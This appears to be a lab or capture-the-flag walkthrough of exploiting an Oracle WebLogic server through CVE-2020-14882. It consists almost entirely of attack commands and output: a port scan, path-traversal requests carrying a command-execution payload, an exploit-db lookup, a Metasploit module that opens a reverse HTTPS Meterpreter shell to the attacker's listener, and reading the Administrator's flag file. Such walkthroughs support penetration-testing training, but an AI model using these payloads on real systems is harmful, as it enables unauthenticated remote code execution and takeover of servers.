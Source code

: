 # Other Notable Applications

nmap -sV 10.129.201.102

PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
80/tcp   open  http          Microsoft IIS httpd 10.0
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp  open  ssl/http      Microsoft IIS httpd 10.0
445/tcp  open  microsoft-ds?
7001/tcp open  http          Oracle WebLogic admin httpd 12.2.1.3 (T3 enabled)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

curl -k -X "GET" https://10.129.201.102:7001/console/css/%252e%252e%252fconsole.portal

curl -k -X "GET" https://10.129.201.102:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/pentest00ls');")

https://www.exploit-db.com/exploits/49479


searchsploit -p 49479
  Exploit: Oracle WebLogic Server 12.2.1.0 - RCE (Unauthenticated)
      URL: https://www.exploit-db.com/exploits/49479
     Path: /usr/share/exploitdb/exploits/java/webapps/49479.py
    Codes: CVE-2020-14882
 Verified: False
File Type: Python script, ASCII text executable
Copied EDB-ID #49479's path to the clipboard

locate 49479.py
/usr/share/exploitdb/exploits/java/webapps/49479.py

cp /usr/share/exploitdb/exploits/java/webapps/49479.py .

use exploit/multi/http/weblogic_admin_handle_rce

set LHOST 10.10.14.88
set RHOSTS 10.129.201.102
set SRVPORT 7001
run

(Meterpreter 2)(C:\Oracle\Middleware\Oracle_Home\user_pro
jects\domains\base_domain) > shell
Process 1916 created.
Channel 1 created.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

[*] Started HTTPS reverse handler on https://10.10.14.88:8443
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Path traversal successful.
[*] Executing PowerShell Stager for windows/x64/meterpreter/reverse_https
[!] https://10.10.14.88:8443 handling request from 10.129.201.102; (UUID: akxurtu0) Without a database connected that payload UUID tracking will not work!

C:\Oracle\Middleware\Oracle_Home\user_projects\domains\base_domain>type c:\Users\Administrator\Desktop\flag.txt
type c:\Users\Administrator\Desktop\flag.txt
w3b_l0gic_RCE!
